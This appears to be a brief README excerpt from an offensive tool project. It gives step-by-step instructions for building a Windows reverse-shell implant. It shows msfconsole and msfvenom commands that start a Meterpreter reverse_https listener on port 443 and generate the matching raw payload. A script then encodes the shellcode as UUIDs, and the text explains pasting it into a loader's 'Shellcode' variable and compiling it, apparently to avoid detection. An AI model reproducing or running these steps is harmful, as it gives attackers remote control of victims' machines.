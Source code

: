 ```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; exploit"
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.bin
python3 payload_uuid.py -p shell.bin > shell.txt
```
In notepad++ Ctrl+h in Replace tab add in Find what field ^(.*)$ and in Replace with field "\1",
Remove from the last line the comma.
<br>
![image](https://github.com/user-attachments/assets/6c6aeb08-b354-4f0a-9e07-7adb1fc12b80)

Add the final shellcode to the "Shellcode" variable.
Compile as Release .
<br>
![image](https://github.com/user-attachments/assets/6c770e2f-f0c7-4a4b-98ab-a6496ead6438)

